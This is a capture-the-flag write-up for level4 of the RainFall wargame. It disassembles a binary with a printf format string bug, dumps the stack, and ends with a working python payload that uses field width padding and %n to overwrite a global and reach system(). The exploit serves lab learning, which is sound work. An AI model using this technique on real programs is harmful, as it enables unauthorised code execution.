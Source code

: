 # level4

Nothing better than an `objdump` to get an overview with what we are dealing with.
```
level4@RainFall:~$ objdump -Mintel -d level4

level4:     file format elf32-i386


Disassembly of section .init:
...
08048444 <p>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 804844d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
 8048455:	c9                   	leave  
 8048456:	c3                   	ret    

08048457 <n>:
 8048457:	55                   	push   ebp
 8048458:	89 e5                	mov    ebp,esp
 804845a:	81 ec 18 02 00 00    	sub    esp,0x218
 8048460:	a1 04 98 04 08       	mov    eax,ds:0x8049804
 8048465:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048469:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 8048470:	00 
 8048471:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 8048477:	89 04 24             	mov    DWORD PTR [esp],eax
 804847a:	e8 d1 fe ff ff       	call   8048350 <fgets@plt>
 804847f:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 8048485:	89 04 24             	mov    DWORD PTR [esp],eax
 8048488:	e8 b7 ff ff ff       	call   8048444 <p>
 804848d:	a1 10 98 04 08       	mov    eax,ds:0x8049810
 8048492:	3d 44 55 02 01       	cmp    eax,0x1025544
 8048497:	75 0c                	jne    80484a5 <n+0x4e>
 8048499:	c7 04 24 90 85 04 08 	mov    DWORD PTR [esp],0x8048590
 80484a0:	e8 bb fe ff ff       	call   8048360 <system@plt>
 80484a5:	c9                   	leave  
 80484a6:	c3                   	ret    

080484a7 <main>:
 80484a7:	55                   	push   ebp
 80484a8:	89 e5                	mov    ebp,esp
 80484aa:	83 e4 f0             	and    esp,0xfffffff0
 80484ad:	e8 a5 ff ff ff       	call   8048457 <n>
 80484b2:	c9                   	leave  
 80484b3:	c3                   	ret    
 80484b4:	90                   	nop
 80484b5:	90                   	nop
 80484b6:	90                   	nop
 80484b7:	90                   	nop
 80484b8:	90                   	nop
 80484b9:	90                   	nop
 80484ba:	90                   	nop
 80484bb:	90                   	nop
 80484bc:	90                   	nop
 80484bd:	90                   	nop
 80484be:	90                   	nop
 80484bf:	90                   	nop
 ...
```

This is the same vulnerability as `level3`. However, a few things changes :

- Now the `printf` call is made in another function `p`. This would only add a couple of words into the stack : `p` sole argument, saved `eip`, saved `ebp`, `printf`'s sole argument...
- The value from the address stored at `0x8049810` is now compared to a much bigger immediate value, `0x1025544`.

Because of the buffer size, our format string is limited to 0x200 bytes. Remember that `%n` writes the number of characters processed so far by the format function.
If we use the same `%n` specifier to write at arbitrary address, we would be quickly limited by our buffer being only 512 bytes. However, the **size of the format string is not the only way to influence how may characters the format function will write**.

From `man 3 printf` :

>   Field width : an  optional decimal digit string (with nonzero first digit) specifying a minimum field width.  If the converted value has fewer characters than the field width, it will be padded with spaces on the left (or right, if the left-adjustment flag has been given).  

The following format string `%29371x` is ony **7** bytes but will yield to **29371** bytes being written because of the *field width*.

By dumping the stack, we notice that the buffer starts on the 12th machine words :

```bash
level4@RainFall:~$ python -c 'print("%08x."*12)' | ./level4
b7ff26b0.bffff794.b7fd0ff4.00000000.00000000.bffff758.0804848d.bffff550.00000200.b7fd1ac0.b7ff37d0.78383025.
```

The address we need to set to `0x1025544` is `0x8049810`. In other words, we need `printf` to have processed **16930116** bytes when the function will encounter the `%n` specifier.

The beginning of our buffer will be filled with the address `0x8049810`. Then, we advance `printf`'s internal pointer by 10 words, using `%08x` specifiers.

```
python -c 'print("\x10\x98\x04\x08" + "%08x"*10 + "%016930032x" + "%n")' | ./level4
```